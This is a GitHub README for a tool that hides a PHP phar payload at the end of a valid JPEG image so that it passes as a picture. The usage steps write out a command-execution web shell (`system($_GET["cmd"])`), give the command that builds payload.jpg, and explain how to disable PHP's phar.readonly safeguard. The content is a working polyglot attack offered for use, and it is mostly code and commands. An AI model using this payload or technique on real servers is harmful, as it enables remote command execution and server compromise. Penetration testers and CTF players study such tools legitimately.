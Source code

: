 # JPEG PHAR Fusion

![Very cool picture](https://github.com/Sarapuce/jpeg-phar-fusion/blob/main/fusion.jpeg)

This is a simple tool to add a phar payload at the end of a valid jpeg image.

## Requierments
- Python 3
- Php (Tested with php 8)

## Usage
1. Clone the repo

`git clone https://github.com/Sarapuce/jpeg-phar-fusion.git`

2. Choose a php payload finishing by `__HALT_COMPILER();` for example :

`<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>`

3. Create the payload with the script

`python3 phar_creator.py '<?php system($_GET["cmd"]); __HALT_COMPILER(); ?>'`

4. The file is in `payload.jpg`

5. Run "php include.php" to see the code executed!!



## It doesn't work 😡
Do you have the error 
> PHP Fatal error:  Uncaught UnexpectedValueException: creating archive "payload.phar" disabled by the php.ini setting phar.readonly

You need to enable the phar creation in php.ini

To locate your php.ini 

`php --ini`

Then edit this line in your file

`;phar.readonly = Off`

into

`phar.readonly = Off`
